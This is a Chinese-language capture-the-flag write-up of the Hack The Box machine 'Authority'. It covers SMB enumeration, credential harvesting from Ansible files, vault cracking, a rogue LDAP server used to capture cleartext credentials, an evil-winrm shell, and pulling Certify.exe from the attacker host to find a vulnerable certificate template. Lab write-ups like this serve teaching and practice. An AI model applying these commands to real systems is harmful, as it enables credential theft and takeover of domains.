


## Summary

*`OS: Windows` `Difficulty: Medium`*

xxx

### Attack Path Overview

{ width='450' }


## 扫描

自用扫描脚本：[工作流](https://github.com/TimeLess613/workflow-scan4HTB/blob/main/workflow-scan4HTB.sh)

开放端口：
```
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Microsoft IIS httpd 10.0
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2023-07-17 09:52:17Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: authority.htb, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: authority.htb, Site: Default-First-Site-Name)
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: authority.htb, Site: Default-First-Site-Name)
3269/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: authority.htb, Site: Default-First-Site-Name)
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
8443/tcp  open  ssl/https-alt
9389/tcp  open  mc-nmf        .NET Message Framing
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49671/tcp open  msrpc         Microsoft Windows RPC
49686/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49687/tcp open  msrpc         Microsoft Windows RPC
49689/tcp open  msrpc         Microsoft Windows RPC
49690/tcp open  msrpc         Microsoft Windows RPC
49699/tcp open  msrpc         Microsoft Windows RPC
49703/tcp open  msrpc         Microsoft Windows RPC
49713/tcp open  msrpc         Microsoft Windows RPC
52705/tcp open  msrpc         Microsoft Windows RPC
```


## 攻击路径规划·漏洞分析

Windows靶机，开了53、88等端口所以应该是域控——其实一台Windows靶机的话也只能是域控了吧，不然也没啥打的了。  
一共扫出29个开放端口，稍微分一下类然后按照优先度排一下：

1. SMB：139，445
1. HTTP/S：80，（8443）
1. LDAP：389，636，（3268，3269）
1. RPC：135，（593）
1. 域控相关：53，88，（464）
1. WinRM：5985
1. 有一些不太熟悉：464，593，3268，326，8443，9389
    - 464：Kerberos进行密码重设的端口
    - 593：原来ncacn_http是RPC的一个协议序列 [RPC over HTTP](https://book.hacktricks.xyz/network-services-pentesting/135-pentesting-msrpc#identifying-exposed-rpc-services)
    - 3268，3269：似乎是用于全局目录（Global Catalog）的查询。 *全局目录是Active Directory中的一个功能，它包含了所有域的一部分通用属性信息，方便在跨域查询时快速访问这些信息*
    - 8443：搜索“ssl/https-alt”发现[这个讨论](https://stackoverflow.com/questions/61760786/what-is-the-use-of-port-8443)。那么8443应该也算web？ *"alt" 是 "alternative"（替代）的简写形式*
    - 9389：不太懂，姑且搜到[MS文档](https://learn.microsoft.com/en-us/openspecs/windows_protocols/mc-nmf/0aab922d-8023-48bb-8ba2-c4d3404cc69d)
1. 高位动态端口：似乎基本都是RPC相关

关于立足的预想路径：SMB——>WEB (——>LDAP——>RPC)  
SMB探索的东西应该不多，先看看这个收集一些信息。然后可以看看web端是否有突破口。LDAP和RPC经验不足，感觉如果web能突破可能就不需要后面了。web无法突破的话可能有域凭据然后枚举LDAP？获得凭据之后估计可以用 `evil-winrm` 建立连接。


## SMB探索

首先枚举SMB共享：
```bash
└─$ smbclient -L //10.10.11.222/ -N            

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        Department Shares Disk      
        Development     Disk      
        IPC$            IPC       Remote IPC
        NETLOGON        Disk      Logon server share 
        SYSVOL          Disk      Logon server share
```

各个共享都试试无密码进入。发现 `Development` 这个共享资源里有一些感兴趣的东西，全部拿到本地再慢慢看：
```bash
└─$ smbclient //10.10.11.222/Development -N
smb: \> mask ""
smb: \> recurse ON
smb: \> prompt OFF
#smb: \> cd 'path\to\remote\dir'
#smb: \> lcd '~/path/to/download/to/'
smb: \> mget *


┌──(kali㉿kali)-[~/…/Authority/SMB/Automation/Ansible]
└─$ ls *    
ADCS:
defaults  meta      README.md         requirements.yml  tasks      tox.ini
LICENSE   molecule  requirements.txt  SECURITY.md       templates  vars

LDAP:
defaults  files  handlers  meta  README.md  tasks  templates  TODO.md  Vagrantfile  vars

PWM:
ansible.cfg  ansible_inventory  defaults  handlers  meta  README.md  tasks  templates

SHARE:
tasks
```

## Development共享的文件分析

里面是ansible的几个项目？正好自己有了解一点ansible。  
文件似乎有点多，我一般都习惯从少的开始看，可以先看完一个没啥用的话就丢弃，然后专注剩下的文件多的东西。

### SHARE

没啥有用的信息。

### PWM

- README里面提到 `defaults/main.yml` 的几个变量，看变量名十分敏感。然后搜了一下PWM，似乎是一个密码管理工具。
    - <https://github.com/pwm-project/pwm>
    - <https://opensource.com/article/19/4/automate-password-resets-pwm>
- cfg文件里发现一个用户：`svc_pwm`。
- inventory文件里配置了清单变量。有ansible凭据（`administrator:Welcome1`），似乎可以通过端口5985的winrm连接目标。
- `defaults/main.yml` 里面有3组用ansible vault加密的字符串变量（`pwm_admin_login`，`pwm_admin_password`，`ldap_admin_password`）。
- tasks的playbook像是在部署PWM这个应用，内容就是README提到的步骤。里面用到了template来配置Tomcat的config。
- Tomcat的config里有两组凭据，用途不明。
    - `admin:T0mc@tAdm1n`
    - `robot:T0mc@tR00t`

```bash
┌──(kali㉿kali)-[~/…/SMB/Automation/Ansible/PWM]
└─$ cat ansible.cfg              
[defaults]

hostfile = ansible_inventory
remote_user = svc_pwm
（略）


┌──(kali㉿kali)-[~/…/SMB/Automation/Ansible/PWM]
└─$ cat ansible_inventory
ansible_user: administrator
ansible_password: Welcome1
ansible_port: 5985
ansible_connection: winrm
ansible_winrm_transport: ntlm
ansible_winrm_server_cert_validation: ignore


┌──(kali㉿kali)-[~/…/SMB/Automation/Ansible/PWM]
└─$ cat defaults/main.yml      
---
pwm_run_dir: "{{ lookup('env', 'PWD') }}"

pwm_hostname: authority.htb.corp
pwm_http_port: "{{ http_port }}"
pwm_https_port: "{{ https_port }}"
pwm_https_enable: true

pwm_require_ssl: false

pwm_admin_login: !vault |
          $ANSIBLE_VAULT;1.1;AES256
          32666534386435366537653136663731633138616264323230383566333966346662313161326239
          6134353663663462373265633832356663356239383039640a346431373431666433343434366139
          35653634376333666234613466396534343030656165396464323564373334616262613439343033
          6334326263326364380a653034313733326639323433626130343834663538326439636232306531
          3438

pwm_admin_password: !vault |
          $ANSIBLE_VAULT;1.1;AES256
          31356338343963323063373435363261323563393235633365356134616261666433393263373736
          3335616263326464633832376261306131303337653964350a363663623132353136346631396662
          38656432323830393339336231373637303535613636646561653637386634613862316638353530
          3930356637306461350a316466663037303037653761323565343338653934646533663365363035
          6531

ldap_uri: ldap://127.0.0.1/
ldap_base_dn: "DC=authority,DC=htb"
ldap_admin_password: !vault |
          $ANSIBLE_VAULT;1.1;AES256
          63303831303534303266356462373731393561313363313038376166336536666232626461653630
          3437333035366235613437373733316635313530326639330a643034623530623439616136363563
          34646237336164356438383034623462323531316333623135383134656263663266653938333334
          3238343230333633350a646664396565633037333431626163306531336336326665316430613566
          3764


┌──(kali㉿kali)-[~/…/SMB/Automation/Ansible/PWM]
└─$ cat tasks/main.yml
（略）
- name: Configure Tomcat 
  template:
    src: templates/tomcat-users.xml.j2
    dest: C:\Program Files\Apache Software Foundation\Tomcat 10.0\conf\tomcat-users.xml
（略）


┌──(kali㉿kali)-[~/…/SMB/Automation/Ansible/PWM]
└─$ cat templates/tomcat-users.xml.j2 
<?xml version='1.0' encoding='cp1252'?>

<tomcat-users xmlns="http://tomcat.apache.org/xml" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
 xsi:schemaLocation="http://tomcat.apache.org/xml tomcat-users.xsd"
 version="1.0">

<user username="admin" password="T0mc@tAdm1n" roles="manager-gui"/>  
<user username="robot" password="T0mc@tR00t" roles="manager-script"/>

</tomcat-users>
```


### LDAP

- 看了眼README，这个role是配置SSSD部署LDAP认证用的。
- TODO文件里提到更改过LDAP的admin密码，那么估计playbook里配置的凭据已经失效。
- 翻了一圈没发现凭据等有用信息。

```bash
┌──(kali㉿kali)-[~/…/SMB/Automation/Ansible/LDAP]
└─$ cat TODO.md 
- Change LDAP admin password after build -[COMPLETE]
- add tests for ubuntu 14, 16, debian 7 and 8, and centos 6 and 7
```


### ADCS

- 看了眼README，这个role是配置“certificate authority”的，应该就如文件夹名指的是ADCS。
- `defaults/main.yml` 里有个 `ca_passphrase: SuP3rS3creT` 不知道什么用途。还有一些域信息。
- 稍微扫了一眼剩下的文件，似乎都是部署的动作，没什么有用的信息。

```bash
┌──(kali㉿kali)-[~/…/SMB/Automation/Ansible/ADCS]
└─$ cat defaults/main.yml   
（略）
# A passphrase for the CA key.
ca_passphrase: SuP3rS3creT

# The common name for the CA.
ca_common_name: authority.htb

# Other details for the CA.
ca_country_name: NL
ca_email_address: admin@authority.htb
ca_organization_name: htb
ca_organizational_unit_name: htb
ca_state_or_province_name: Utrecht
ca_locality_name: Utrecht
（略）
```

终于看完这一堆文件，根据上面的信息，应该就PWM那个文件夹里的较有用，里面有较多凭据信息，且有几个加密了的不知道能否破解。

## Ansible

### 尝试搭建ansible控制端发放命令执行

由于ansible清单文件里面包含了ansible执行时的账户密码，于是尝试能否搭建ansible控制端去连接靶机，并让其执行反弹shell。

#### 踩坑：Python高版本安装的ansible导致的报错

一开始直接用kali安装ansible，并根据[文档](https://docs.ansible.com/ansible/latest/os_guide/windows_winrm.html)使用WinRM时需要安装pywinrm：`pip install "pywinrm>=0.3.0"`。

但是执行 `ansible -i ansible_inventory HTB -m win_ping` 测试时总会报错：

- 用靶机原本的清单文件（ansible_inventory，INI格式）时：报错无法连接22端口。
- 发现上面报错也有说无法解析清单文件，于是改成YAML格式后运行：报错“ntlm: module 'inspect' has no attribute 'getargspec'”。

```bash
┌──(kali㉿kali)-[~/…/SMB/Automation/Ansible/PWM]
└─$ ansible -i ansible_inventory HTB -m win_ping          
[WARNING]:  * Failed to parse /home/kali/HTB/Authority/SMB/Automation/Ansible/PWM/ansible_inventory with yaml
plugin: We were unable to read either as JSON nor YAML, these are the errors we got from each: JSON: Expecting
value: line 1 column 2 (char 1)  Syntax Error while loading YAML.   did not find expected <document start>  The
error appears to be in '/home/kali/HTB/Authority/SMB/Automation/Ansible/PWM/ansible_inventory': line 2, column 1,
but may be elsewhere in the file depending on the exact syntax problem.  The offending line appears to be:  [HTB]
10.10.11.222 ^ here
[WARNING]:  * Failed to parse /home/kali/HTB/Authority/SMB/Automation/Ansible/PWM/ansible_inventory with ini
plugin: /home/kali/HTB/Authority/SMB/Automation/Ansible/PWM/ansible_inventory:5: Expected key=value, got:
ansible_user: administrator
[WARNING]: Unable to parse /home/kali/HTB/Authority/SMB/Automation/Ansible/PWM/ansible_inventory as an inventory
source
[WARNING]: No inventory was parsed, only implicit localhost is available
[WARNING]: provided hosts list is empty, only localhost is available. Note that the implicit localhost does not
match 'all'
10.10.11.222 | UNREACHABLE! => {
    "changed": false,
    "msg": "Data could not be sent to remote host \"10.10.11.222\". Make sure this host can be reached over ssh: ssh: connect to host 10.10.11.222 port 22: Connection refused\r\n",                                                    
    "unreachable": true
}

┌──(kali㉿kali)-[~/…/SMB/Automation/Ansible/PWM]
└─$ ansible -i ansible_inventory.yml HTB -m win_ping    
10.10.11.222 | UNREACHABLE! => {
    "changed": false,
    "msg": "ntlm: module 'inspect' has no attribute 'getargspec'",
    "unreachable": true
}
```

两次报错信息不一样还有点迷？  
继续搜索如何使用ansible管理Windows，看到[这篇文章](https://bftnagoya.hateblo.jp/entry/2021/02/18/120652)后理解了一部分报错原因。总的来说，ansible默认用ssh连接。  
虽然原本INI格式的清单文件里有指定对目标使用WinRM连接，但是由于清单解析失败，所以还是使用了默认的ssh连接方式，而22端口我们也没扫出来是开放的，所以结果是报错22端口的ssh连接失败。  
**那么后来用YAML清单执行的报错才是该解决的问题（文章里是可以通过指定变量使用WinRM的）。**

在这之前顺便确认了一下清单的主机变量。  
确实INI格式的清单会解析失败于是什么都没有，而YAML格式则顺利解析：
```yml
┌──(kali㉿kali)-[~/…/SMB/Automation/Ansible/PWM]
└─$ ansible-inventory -i ansible_inventory --list -y
[WARNING]:  * Failed to parse /home/kali/HTB/Authority/SMB/Automation/Ansible/PWM/ansible_inventory with yaml
plugin: We were unable to read either as JSON nor YAML, these are the errors we got from each: JSON: Expecting
value: line 1 column 2 (char 1)  Syntax Error while loading YAML.   did not find expected <document start>  The
error appears to be in '/home/kali/HTB/Authority/SMB/Automation/Ansible/PWM/ansible_inventory': line 2, column 1,
but may be elsewhere in the file depending on the exact syntax problem.  The offending line appears to be:  [HTB]
10.10.11.222 ^ here
[WARNING]:  * Failed to parse /home/kali/HTB/Authority/SMB/Automation/Ansible/PWM/ansible_inventory with ini
plugin: /home/kali/HTB/Authority/SMB/Automation/Ansible/PWM/ansible_inventory:5: Expected key=value, got:
ansible_user: administrator
[WARNING]: Unable to parse /home/kali/HTB/Authority/SMB/Automation/Ansible/PWM/ansible_inventory as an inventory
source
[WARNING]: No inventory was parsed, only implicit localhost is available
all:
  children:
    ungrouped: {}

┌──(kali㉿kali)-[~/…/SMB/Automation/Ansible/PWM]
└─$ ansible-inventory -i ansible_inventory.yml --list -y 
all:
  children:
    HTB:
      hosts:
        10.10.11.222:
          ansible_connection: winrm
          ansible_password: Welcome1
          ansible_port: 5985
          ansible_user: administrator
          ansible_winrm_server_cert_validation: ignore
          ansible_winrm_transport: ntlm
    ungrouped: {}
```

继续打靶。

稍微查了下YAML清单执行的报错，似乎是'getargspec'在3.11不支持了，于是尝试降python版本运行。  
先安装低版本python。不过配置ansible的python解释器相关参数后，试了半天用 `ansible --version` 看python路径都没变化。查了查看到[这里](https://stackoverflow.com/questions/69122604/cannot-change-python-version-in-ansible)。原来我更改的 `ansible.cfg` 和清单变量都是指定受控目标host的pyhton解释器，而ansible是一个pyhton库，控制端的python解释器路径就是依赖于安装ansible的python版本。要更改的话需要用低版本python重装ansible。其实[官方文档](https://docs.ansible.com/ansible/latest/reference_appendices/python_3_support.html#on-the-controller-side)也有提到。

然而我的ansible是之前用apt装的……  
现在尝试用低版本python按照[官方安装文档](https://docs.ansible.com/ansible/latest/installation_guide/intro_installation.html#selecting-an-ansible-package-and-version-to-install)重装。

#### 降版本安装python3.9

涉及到Python多版本共存的问题，用如下方式。后来想想用miniconda应该也不错？
```bash
cd ~
sudo apt install build-essential zlib1g-dev libncurses5-dev libgdbm-dev libnss3-dev libssl-dev libsqlite3-dev libreadline-dev libffi-dev wget libbz2-dev
wget https://www.python.org/ftp/python/3.9.7/Python-3.9.7.tgz
tar -xf Python-3.9.7.tgz
cd Python-3.9.7
./configure --enable-optimizations
make -j$(nproc)
sudo make altinstall
python3.9 --version
```

#### 安装ansible

由于安装在用户目录，所以需要将其加入PATH（推荐用虚拟环境隔离一下，也不必用“--user”选项了自然也不用修改PATH）。  
然后根据[ansible文档](https://docs.ansible.com/ansible/latest/os_guide/windows_winrm.html#what-is-winrm)，使用WinRM时安装pywinrm包：
```bash
┌──(kali㉿kali)-[~/HTB/Authority/SMB]
└─$ python3.9 -m pip -V
pip 21.2.3 from /usr/local/lib/python3.9/site-packages/pip (python 3.9)

┌──(kali㉿kali)-[~/HTB/Authority/SMB]
└─$ python3.9 -m pip install --user ansible

┌──(kali㉿kali)-[~/HTB/Authority/SMB]
└─$ export PATH=/home/kali/.local/bin:$PATH

┌──(kali㉿kali)-[~/HTB/Authority/SMB]
└─$ ansible --version
ansible [core 2.15.2]
  config file = None
  configured module search path = ['/home/kali/.ansible/plugins/modules', '/usr/share/ansible/plugins/modules']
  ansible python module location = /home/kali/.local/lib/python3.9/site-packages/ansible
  ansible collection location = /home/kali/.ansible/collections:/usr/share/ansible/collections
  executable location = /home/kali/.local/bin/ansible
  python version = 3.9.7 (default, Jul 18 2023, 22:35:31) [GCC 12.2.0] (/usr/local/bin/python3.9)
  jinja version = 3.1.2
  libyaml = True

└─$ python3.9 -m pip install "pywinrm>=0.3.0"
```

#### python3.9的ansible运行结果

```bash
└─$ ansible -i ansible_inventory.yml -m win_ping HTB 
10.10.11.222 | UNREACHABLE! => {
    "changed": false,
    "msg": "ntlm: the specified credentials were rejected by the server",
    "unreachable": true
}
```

拒绝NTLM认证？难道是兔子洞？？

### 破解vault

对于前面发现的3个vault加密，看看john能否破解。

```bash
┌──(kali㉿kali)-[~/HTB/Authority/nmapscan]
└─$ john --list=formats | grep ansible
aix-ssha512, andOTP, ansible, argon2, as400-des, as400-ssha1, asa-md5, 
416 formats (149 dynamic formats shown as just "dynamic_n" here)

┌──(kali㉿kali)-[~/…/SMB/Automation/Ansible/PWM]
└─$ ansible2john vault-ldap-pw.txt > vault-ldap-pw.hash

┌──(kali㉿kali)-[~/…/SMB/Automation/Ansible/PWM]
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt --format=ansible vault-ldap-pw.hash
Using default input encoding: UTF-8
Loaded 1 password hash (ansible, Ansible Vault [PBKDF2-SHA256 HMAC-256 128/128 AVX 4x])
Cost 1 (iteration count) is 10000 for all loaded hashes
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
!@#$%^&*         (vault-ldap-pw.txt)
```

3个vault的破解结果一样——因为这是vault的密码。然后用vault密码对各个vault字符进行解密：
```bash
┌──(venv-ansible)─(kali㉿kali)-[~/…/SMB/Automation/Ansible/PWM]
└─$ cat vault-admin-login.txt | ansible-vault decrypt 
Vault password: 
Decryption successful
svc_pwm
┌──(venv-ansible)─(kali㉿kali)-[~/…/SMB/Automation/Ansible/PWM]
└─$ cat vault-admin-pw.txt | ansible-vault decrypt
Vault password: 
Decryption successful
pWm_@dm!N_!23
┌──(venv-ansible)─(kali㉿kali)-[~/…/SMB/Automation/Ansible/PWM]
└─$ cat vault-ldap-pw.txt | ansible-vault decrypt 
Vault password: 
Decryption successful
DevT3st@123 
```

- pwm_admin_login：svc_pwm
- pwm_admin_password：pWm_@dm!N_!23
- ldap_admin_password：DevT3st@123

算是得到两组凭据？其中 `svc_pwm` 也在 `ansible.cfg` 中有定义“remote_user = svc_pwm”。于是将清单里的账号密码改成svc_pwm这个又试了一下ansible执行，不过依旧报一样的错。估计这条路是真的不行吧……  
暂时不知道这些凭据在哪里使用，继续进行探索。


## 80端口

IIS的默认界面，没发现其他什么有用的信息。


## 8443端口

访问 `10.10.11.222:8443`，会报错需要TLS。那么试试 `https://10.10.11.222:8443`，会重定向到 `https://10.10.11.222:8443/pwm/private/login`。


尝试用前面的凭据登录，都报错。

然后点击下面的按钮，只需要密码。像是要ldap的，而前面有个密码正好不知道用户名，想着可能就是这里用，但是结果登陆失败。  
不过注意到页面下方的认证记录？有写用户名是 `svc_pwm`，那么看来是该用前面破解的 `svc_pwm`:`pWm_@dm!N_!23` 这组凭据。其实所有凭据都试一遍最终也可以登入。（后来才发觉这就是PWM的管理界面）




尝试输入密码，成功登入


## Initial Access

可以在上图的WARN看到LDAP服务器 `ldaps://authority.authority.htb:636`。找到配置尝试添加kali为LDAP服务器。


执行`sudo responder -I tun0 -v`，然后点击 `Test LDAP Profile`，可以收到明文凭据 `svc_ldap:lDaP_1n_th3_cle4r!`：
```bash
（略）
[+] Servers:
（略）
    LDAP server                [ON]
（略）
[+] Listening for events...                                                                                         

[LDAP] Attempting to parse an old simple Bind request.
[LDAP] Cleartext Client   : 10.10.11.222
[LDAP] Cleartext Username : CN=svc_ldap,OU=Service Accounts,OU=CORP,DC=authority,DC=htb
[LDAP] Cleartext Password : lDaP_1n_th3_cle4r!
（略）
``` 

由于开放了5985端口，尝试 `evil-winrm` 连接：
```bash
┌──(venv-ansible)─(kali㉿kali)-[~/HTB/Authority]
└─$ evil-winrm -i 10.10.11.222 -u svc_ldap -p lDaP_1n_th3_cle4r!
（略）
*Evil-WinRM* PS C:\Users\svc_ldap\Documents> whoami
htb\svc_ldap

*Evil-WinRM* PS C:\Users\svc_ldap\Downloads> whoami /all

USER INFORMATION
----------------

User Name    SID
============ =============================================
htb\svc_ldap S-1-5-21-622327497-3269355298-2248959698-1601


GROUP INFORMATION
-----------------

Group Name                                  Type             SID          Attributes
=========================================== ================ ============ ==================================================
Everyone                                    Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users             Alias            S-1-5-32-580 Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                               Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access  Alias            S-1-5-32-554 Mandatory group, Enabled by default, Enabled group
BUILTIN\Certificate Service DCOM Access     Alias            S-1-5-32-574 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                        Well-known group S-1-5-2      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users            Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization              Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication            Well-known group S-1-5-64-10  Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Plus Mandatory Level Label            S-1-16-8448


PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled


USER CLAIMS INFORMATION
-----------------------

User claims unknown.

Kerberos support for Dynamic Access Control on this device has been disabled.
```

- 值得注意的是，这个用户有 `SeMachineAccountPrivilege     Add workstations to domain` 权限，即可以将新机器加入域。


## flag: user

```powershell
*Evil-WinRM* PS C:\Users\svc_ldap\Desktop> dir


    Directory: C:\Users\svc_ldap\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---        7/20/2023  10:09 AM             34 user.txt


*Evil-WinRM* PS C:\Users\svc_ldap\Desktop> cat user.txt
1ef3（略）6483
```


## Privilege Escalation

### 探索

因为之前在SMB发现ansible里有ADCS文件夹，而在靶机C盘也发现名为 `Certs` 的目录，应该可以使用 `certify` 工具搜索易受攻击的证书。

```powershell
*Evil-WinRM* PS C:\> dir


    Directory: C:\


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----        4/23/2023   6:16 PM                Certs
d-----        3/28/2023   1:59 PM                Department Shares
d-----        3/17/2023   9:20 AM                Development
d-----         8/9/2022   7:00 PM                inetpub
d-----        3/24/2023   8:22 PM                PerfLogs
d-r---        3/25/2023   1:20 AM                Program Files
d-----        3/25/2023   1:19 AM                Program Files (x86)
d-----        7/20/2023  11:52 AM                pwm
d-r---        3/24/2023  11:27 PM                Users
d-----        7/12/2023   1:19 PM                Windows
-a----        8/10/2022   8:44 PM       84784749 pwm-onejar-2.0.3.jar

*Evil-WinRM* PS C:\Certs> dir


    Directory: C:\Certs


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        4/23/2023   6:11 PM           4933 LDAPs.pfx
```

### CA模板漏洞

#### Certify搜索漏洞模板

在<https://github.com/r3motecontrol/Ghostpack-CompiledBinaries>可下载编译好的 `Certify.exe`，上传到目标机。
```powershell
*Evil-WinRM* PS C:\Users\svc_ldap\Downloads> wget 10.10.14.106:80/Certify.exe -OutFile Certify.exe
*Evil-WinRM* PS C:\Users\svc_ldap\Downloads> dir


    Directory: C:\Users\svc_ldap\Downloads


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        7/20/2023  12:18 PM         174080 Certify.exe
```

运行命令后发现一个名为 `CorpVPN` 的漏洞模板：
```powershell
*Evil-WinRM* PS C:\Users\svc_ldap\Downloads> ./Certify.exe find /vulnerable

   _____          _   _  __
  / ____|        | | (_)/ _|
 | |     ___ _ __| |_ _| |_ _   _
 | |    / _ \ '__| __| |  _| | | |
 | |___|  __/ |  | |_| | | | |_| |
  \_____\___|_|   \__|_|_|  \__, |
                             __/ |
                            |___./
  v1.0.0

[*] Action: Find certificate templates
[*] Using the search base 'CN=Configuration,DC=authority,DC=htb'

[*] Listing info about the Enterprise CA 'AUTHORITY-CA'

    Enterprise CA Name            : AUTHORITY-CA
    DNS Hostname                  : authority.authority.htb
    FullName                      : authority.authority.htb\AUTHORITY-CA
    Flags                         : SUPPORTS_NT_AUTHENTICATION, CA_SERVERTYPE_ADVANCED
    Cert SubjectName              : CN=AUTHORITY-CA, DC=authority, DC=htb
    Cert Thumbprint               : 42A80DC79DD9CE76D032080B2F8B172BC29B0182
    Cert Serial                   : 2C4E1F3CA46BBDAF42A1DDE3EC33A6B4
    Cert Start Date               : 4/23/2023 9:46:26 PM
    Cert End Date                 : 4/23/2123 9:56:25 PM
    Cert Chain                    : CN=AUTHORITY-CA,DC=authority,DC=htb
    UserSpecifiedSAN              : Disabled
    CA Permissions                :
      Owner: BUILTIN\Administrators        S-1-5-32-544

      Access Rights                                     Principal

      Allow  Enroll                                     NT AUTHORITY\Authenticated UsersS-1-5-11
      Allow  ManageCA, ManageCertificates               BUILTIN\Administrators        S-1-5-32-544
      Allow  ManageCA, ManageCertificates               HTB\Domain Admins             S-1-5-21-622327497-3269355298-2248959698-512
      Allow  ManageCA, ManageCertificates               HTB\Enterprise Admins         S-1-5-21-622327497-3269355298-2248959698-519
    Enrollment Agent Restrictions : None

[!] Vulnerable Certificates Templates :

    CA Name                               : authority.authority.htb\AUTHORITY-CA
    Template Name                         : CorpVPN
    Schema Version                        : 2
    Validity Period                       : 20 years
    Renewal Period                        : 6 weeks
    msPKI-Certificate-Name-Flag          : ENROLLEE_SUPPLIES_SUBJECT
    mspki-enrollment-flag                 : INCLUDE_SYMMETRIC_ALGORITHMS, PUBLISH_TO_DS, AUTO_ENROLLMENT_CHECK_USER_DS_CERTIFICATE
    Authorized Signatures Required        : 0
    pkiextendedkeyusage                   : Client Authentication, Document Signing, Encrypting File System, IP security IKE intermediate, IP security user, KDC Authentication, Secure Email
    mspki-certificate-application-policy  : Client Authentication, Document Signing, Encrypting File System, IP security IKE intermediate, IP security user, KDC Authentication, Secure Email
    Permissions
      Enrollment Permissions
        Enrollment Rights           : HTB\Domain Admins             S-1-5-21-622327497-3269355298-2248959698-512
                                      HTB\Domain Computers          S-1-5-21-622327497-3269355298-2248959698-515
                                      HTB\Enterprise Admins         S-1-5-21-622327497-3269355298-2248959698-519
      Object Control Permissions
        Owner                       : HTB\Administrator             S-1-5-21-622327497-3269355298-2248959698-500
        WriteOwner Principals       : HTB\Administrator             S-1-5-21-622327497-3269355298-2248959698-500
                                      HTB\Domain Admins             S-1-5-21-622327497-3269355298-2248959698-512
                                      HTB\Enterprise Admins         S-1-5-21-622327497-3269355298-2248959698-519
        WriteDacl Principals        : HTB\Administrator             S-1-5-21-622327497-3269355298-2248959698-500
                                      HTB\Domain Admins             S-1-5-21-622327497-3269355298-2248959698-512
                                      HTB\Enterprise Admins         S-1-5-21-622327497-3269355298-2248959698-519
        WriteProperty Principals    : HTB\Administrator             S-1-5-21-622327497-3269355298-2248959698-500
                                      HTB\Domain Admins             S-1-5-21-622327497-3269355298-2248959698-512
                                      HTB\Enterprise Admins         S-1-5-21-622327497-3269355298-2248959698-519


Certify completed in 00:00:09.7458664
```

